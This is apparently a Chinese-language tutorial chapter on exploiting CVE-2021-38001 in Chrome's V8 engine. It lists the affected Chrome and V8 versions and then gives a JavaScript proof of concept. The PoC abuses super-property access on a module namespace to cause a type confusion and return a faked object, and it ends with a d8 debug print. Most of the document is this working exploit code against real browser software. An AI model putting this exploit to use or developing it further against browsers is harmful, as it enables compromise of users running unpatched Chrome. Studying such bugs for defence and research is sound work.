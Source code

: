 # Chapter3-CVE-2021-38001漏洞利用

> 受影响的Chrome最高版本为：`95.0.4638.54`\
> 受影响的V8最高版本为：`9.5.172.21` issue编号：[1260577](https://nobb.site/2021/12/08/0x6E/#jump1)

## POC

```javascript
import('./1.mjs').then((m1) => {
    var f64 = new Float64Array(1);
	var bigUint64 = new BigUint64Array(f64.buffer);
	var u32 = new Uint32Array(f64.buffer);

	function d2u(v) {
        f64[0] = v;
        return u32;
	}
	function u2d(lo, hi) {
        u32[0] = lo;
        u32[1] = hi;
        return f64[0];
	}
	function ftoi(f)
	{
	    f64[0] = f;
		return bigUint64[0];
	}
	function itof(i)
	{
		bigUint64[0] = i;
		return f64[0];
	}
    class C {
		m() {
			return super.x;
		}
	}
    obj_prop_ut_fake = {};
    for (let i = 0x0; i < 0x11; i++) {
        obj_prop_ut_fake['x' + i] = u2d(0x40404042, 0);
    }
    C.prototype.__proto__ = m1;
    function trigger() {
        let c = new C();

        c.x0 = obj_prop_ut_fake;
        let res = c.m();
        return res;
	}
    for (let i = 0; i < 10; i++) {
        trigger();
    }
    let evil = trigger();
    %DebugPrint(evil);
});
```
